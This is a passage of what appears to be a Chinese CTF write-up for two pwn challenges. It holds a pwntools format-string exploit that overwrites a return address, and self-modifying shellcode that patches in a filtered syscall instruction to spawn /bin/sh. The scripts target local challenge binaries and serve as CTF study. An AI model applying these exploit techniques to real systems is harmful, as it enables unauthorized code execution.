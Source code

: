 ## format_level3

未开启PIE，与`level2`的差别是格式化字符串的buf放到了bss段上

（这题实际上出的有点问题，本意是想让1/16爆破栈，不泄露地址，但没限制`%p %x %s`泄露（我是sb），然后被非预期了（悲

```python
#!/usr/bin/env python3
from pwn import*
context.log_level = 'debug'

io = process('./format_level3')
elf = ELF('./format_level3')

def choose(choice):
    io.recvuntil(b'Your choice: ')
    io.sendline(str(choice).encode())

def talk(content):
    choose(3)
    io.recvuntil(b'Input what you want to talk: ')
    io.send(content)

talk(b'%28c%6$hhn')         #修改栈中已经存在的地址指向game返回到main的地址
talk(b'%23c%14$hhn')        #修改返回地址低字节为success函数低字节
talk(b'%29c%6$hhn')         #修改指向低字节的上一字节
talk(b'%147c%14$hhn')       #修改返回地址低字节的上一字节
choose(4)

#attach(io)
#pause()

io.interactive()
```

## changeable_shellcode

题目禁止输入`syscall`的机器码，因此需要在shellcode执行时修改对应位置机器码为`syscall`

exp:

```python
#!/usr/bin/env python3
from pwn import*
context(arch='x86_64', log_level = 'debug')

io = process('./shellcode')

#attach(io)
#pause()

shellcode = '''
    mov rdi, 0x114514021
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 59
    xor byte ptr [rdi-2], 0xf0
    xor byte ptr [rdi-1], 0xfa
'''
io.send(asm(shellcode)+b'\xff\xff'+b'/bin/sh')

io.interactive()
```
